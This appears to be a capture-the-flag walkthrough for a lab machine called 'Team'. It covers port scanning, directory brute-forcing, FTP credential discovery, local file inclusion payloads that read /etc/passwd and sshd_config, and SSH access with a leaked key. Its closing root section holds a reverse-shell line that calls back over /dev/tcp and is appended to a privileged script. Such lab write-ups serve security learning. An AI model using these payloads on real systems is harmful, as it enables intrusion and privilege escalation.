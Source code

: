 # Steps to user.txt
* Run a Port Scan using NMAP
`nmap -sV -sC -oA nmap/output <IP_ADDRESS_OF_MASCHINE>`

* We can see that Port **21, 22** and **80** are open

```
Nmap 7.80 scan initiated Fri Mar  5 21:49:20 2021 as: nmap -sV -sC -oA nmap/output teamcw
Nmap scan report for teamcw (10.10.87.236)
Host is up (0.055s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
|_  256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done at Fri Mar  5 21:49:38 2021 -- 1 IP address (1 host up) scanned in 17.39 seconds
```


* Next I had a quick look at the page using the browser
* Only the Apache2 Ubuntu Default Page was shown
* Having a look at the Source showed that I have to hadd 'team.thm' to my hosts file


![image](https://user-images.githubusercontent.com/78683952/110202466-24dc1100-7e69-11eb-8fb3-ff424a266bd9.png)


* After putting team.thm into my hosts file the following page appeared

![image](https://user-images.githubusercontent.com/78683952/110202498-59e86380-7e69-11eb-9058-0cab1a29e2eb.png)


* Next I ran gobuster and found the hidden directory *scripts*
** gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://team.thm -x .txt

![image](https://user-images.githubusercontent.com/78683952/110202590-04f91d00-7e6a-11eb-8267-ee5f922b27c5.png)


* Wthin this directory there is a file called *script.txt*
** gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://team.thm/scripts/ -x .txt

![image](https://user-images.githubusercontent.com/78683952/110202593-104c4880-7e6a-11eb-9aa7-bc1f84518ea0.png)


* Browsing to http://team.thm/scripts/script.txt shows us the following:

![image](https://user-images.githubusercontent.com/78683952/110202629-52758a00-7e6a-11eb-81f0-f54c1c889b14.png)

* the hint on the very bottom made my try to access: http://team.thm/scripts/script.old
* Voila :) 

![image](https://user-images.githubusercontent.com/78683952/110202655-7df87480-7e6a-11eb-814f-a3717c2f217a.png)

We now have FTP Credentials and can use them to login in to the FTP Server 

![image](https://user-images.githubusercontent.com/78683952/110202739-fa8b5300-7e6a-11eb-9ab1-b9aef3554d17.png)

* I then checked out the New_site.txt:

![image](https://user-images.githubusercontent.com/78683952/110202795-43dba280-7e6b-11eb-81bf-f7380ce1afec.png)

It seems like we have to adjust the entry in our host file from **team.thm** to **dev.team.thm**
Furthermore, the two names within the .txt file look like usernames.

* Browsing to **dev.team.thm** shows us the following

![image](https://user-images.githubusercontent.com/78683952/110202886-a3d24900-7e6b-11eb-8d29-7f1f9eb68215.png)


![image](https://user-images.githubusercontent.com/78683952/110202911-b8164600-7e6b-11eb-8236-3e5e6ca11af1.png)

The `page=teamshare.php` looks very suspicious.

Lets try: `page=../../../../etc/passwd `

Voila

![image](https://user-images.githubusercontent.com/78683952/110203009-14796580-7e6c-11eb-9871-203f47cfba80.png)

* Being able to exploit this Directory Traversal and LFI Vulnerabilty we can now try to find the id_rsa that was mentioned in the **New_site.txt** 
** view-source:http://dev.team.thm/script.php?page=php://filter/resource=../../../../etc/ssh/sshd_config

![image](https://user-images.githubusercontent.com/78683952/110203090-6d48fe00-7e6c-11eb-9ca7-81992d6ec662.png)

* We can now connect to the machine with the following command: `ssh -i id_rsa dale@dev.team.thm` and get the **user.txt**

![image](https://user-images.githubusercontent.com/78683952/110203173-d92b6680-7e6c-11eb-9721-f1280cd13e88.png)



*** username and password
* connect to FTP
* download New_ ...
* put dev.team.thm into your host file
* directory traversal
** http://dev.team.thm/script.php?page=../../../home/dale/user.txt
*view-source:http://dev.team.thm/script.php?page=php://filter/resource=../../../../etc/ssh/sshd_config


# Steps to root.txt
* enumerate gyles
** become member of admin
* write to script
* echo "/bin/bash -c '/bin/bash >& /dev/tcp/10.9.4.238/4444 0>&1'" >> /usr/local/bin/main_backup.sh

